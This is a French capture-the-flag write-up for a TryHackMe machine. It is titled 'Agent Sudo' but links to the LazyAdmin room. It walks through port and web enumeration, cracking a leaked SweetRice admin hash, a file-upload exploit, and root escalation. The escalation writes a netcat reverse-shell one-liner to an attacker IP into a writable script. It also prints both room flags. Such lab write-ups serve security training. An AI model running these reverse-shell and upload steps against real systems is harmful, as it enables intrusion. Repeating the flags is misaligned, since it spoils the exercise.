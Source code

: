 # THM - Agent Sudo
<p align="center">
  <img width="450" height="300" src="./img/logo.jpeg">
</p>

Description | Difficulté | Lien
-------------|------------|-----------
Easy linux machine to practice your skills | Easy 🟢| [THM](https://tryhackme.com/room/lazyadmin)


Enumeration de port :
```txt
nmap -A <ip>
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 08:30 EDT
Nmap scan report for <ip>
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Le port intéressant est le 80, un site internet est derrière.

<p align="center">
  <img width="450" height="300" src="./img/apache2.png">
</p>

Enumeration web :
```bash
gobuster dir -u <ip> -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
Résultat :
```txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<ip>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/01 08:34:52 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 314] [--> http://<ip>/content/]
Progress: 141617 / 141709 (99.94%)
===============================================================
2023/04/01 08:41:12 Finished
===============================================================
```
On apprend que le site est hébergé sur un CMS qui se nomme SweetRice
<p align="center">
  <img width="450" height="300" src="./img/sweetrice.png">
</p>

On essaye donc d'énumérer ce qu'il y a derrière /content
```txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<ip>/content/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/01 09:15:42 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> http://<ip>/content/images/]
/as                   (Status: 301) [Size: 317] [--> http://<ip>/content/as/]
/js                   (Status: 301) [Size: 317] [--> http://<ip>/content/js/]
/inc                  (Status: 301) [Size: 318] [--> http://<ip>/content/inc/]
/_themes              (Status: 301) [Size: 322] [--> http://<ip>/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://<ip>/content/attachment/]
Progress: 141646 / 141709 (99.96%)
===============================================================
2023/04/01 09:21:34 Finished
===============================================================
```

/as est le portail pour se connecter.

Dans /inc/ il y a un fichier intéressant "mysql_bakup_20191129023059-1.5.1.sql", en parcourant le fichier, on y remarque des informations critiques :
<p align="center">
  <img width="" height="" src="./img/credential.png">
</p>

Le nom de l'administrateur et un mot de passe hashé.

Avec hash-identifier, nous savons que c'est possiblement du MD5
<p align="center">
  <img width="" height="" src="./img/hash-identifier.png">
</p>
<p align="center">
  <img width="" height="" src="./img/dcode.png">
</p>

On sait maintenant que le mot de passe du compte manager est ``Password123``

On se connecte et une information supplémentaire nous apparait, nous sommes en version 1.5.1.

Avec ``searchsploit`` nous déterminons que cette version à une faille d'upload de fichier arbitraire que nous allons tenter d'exploiter.
```
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                                                   | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                     | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                         | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                           | php/webapps/40700.html
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

On modifie le php de [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) pour spawn un reverse shell vers notre client.
Et on nomme notre fichier ``shell.php5``

On utilise le script de l'exploit 40716 et le fichier est envoyé.
<p align="center">
  <img width="" height="" src="./img/shell.png">
</p>

Maintenant, on a accès au /home/itguy/ et on remarque qu'un script est dans le home. En regardant le profil de www-data, on remarque qu'il a le droit d'éxécuter ``/usr/bin/perl /home/itguy/backup.pl`` avec les droit root.

On profite pour récupèrer le flag user qui se trouve dans ``/home/itguy/user.txt``

> **Note**
> Première question : What is the user flag ? ``THM{63e5bce9271952aad1113b6f1ac28a07}``

Et le script /home/itguy/backup.pl est le suivant :
```bash
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
Et nos droits sur le fichier ``/etc/copy.sh`` sont en écriture.

On injecte donc un netcat pour nous faire spawn un shell en root :
```bash
echo 'mkfifo /tmp/gizgf; nc <ip-de-lattaquant> <port> 0</tmp/gizgf | /bin/sh >/tmp/gizgf 2>&1; rm /tmp/gizgf' > /etc/copy.sh
```
Et on execute le script de la manière suivante :
```
sudo /usr/bin/perl /home/itguy/backup.pl
```
On est root et on récupère le flag. 
<p align="center">
  <img width="" height="" src="./img/root.png">
</p>

> **Note** 
> Deuxième question : What is the root flag? ``THM{6637f41d0177b6f37cb20d775124699f}``
